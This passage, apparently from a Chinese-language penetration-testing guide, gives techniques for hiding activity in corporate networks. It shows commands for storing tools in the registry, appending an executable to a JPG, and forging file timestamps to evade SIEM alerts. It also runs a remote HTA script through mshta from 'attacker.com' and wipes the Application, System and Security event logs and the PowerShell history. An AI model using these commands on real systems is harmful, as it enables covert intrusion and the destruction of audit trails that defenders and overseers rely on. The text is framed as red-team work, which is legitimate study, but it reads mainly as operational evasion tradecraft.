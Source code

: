   
，通过DNS查询/响应传输文件，适用于仅开放DNS端口的极端环境。  
  
- • **注册表存储小型文件**  
：对于小于1MB的工具，可将其分割后存入注册表，
```
reg add &#34;HKLM\SOFTWARE\Temp&#34; /v &#34;file1&#34; /t REG_BINARY /d <hex_data>
```

  
，再通过脚本读取拼接。  
  
文件传输隐蔽性提升：避免传输可执行文件的原始格式，可将其伪装为图片（如在jpg文件尾部附加exe数据），使用时通过
```
copy /b image.jpg + payload.exe output.jpg
```

  
合并，执行时提取尾部数据。  
## 九、时间同步与审计阻碍：应对严格的日志监控  
  
企业内网普遍部署SIEM系统，对异常登录时间、频繁的命令执行等行为进行实时告警。某机构的SIEM系统会对非工作时间的管理员登录进行15分钟内的人工核查，给夜间渗透测试带来挑战。  
  
**突破技巧**  
：  
- • **时间戳伪造**  
：在执行命令时修改操作时间戳，
```
Set-ItemProperty -Path C:\file.txt -Name CreationTime -Value (Get-Date &#34;2023-01-01 10:00:00&#34;)
```

  
，规避时间异常检测。  
  
- • **模拟正常操作习惯**  
：分析管理员操作日志，模仿其常用命令和操作时段。某案例中发现管理员习惯在每天14:00-15:00执行批处理脚本，测试人员在此时间段执行类似操作，成功规避告警。  
  
- • **使用白名单工具执行命令**  
：利用系统自带工具（如mshta.exe、cscript.exe）执行操作，
```
mshta.exe http://attacker.com/script.hta
```

  
，降低被检测概率。  
  
日志清理规范：测试结束后需按
```
wevtutil cl Application; wevtutil cl System; wevtutil cl Security
```

  
顺序清理日志，同时注意清理PowerShell历史记录（
```
Remove-Item $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

  
）。  
## 十、工控设备渗透障碍：突破OT与IT网络的隔离  
  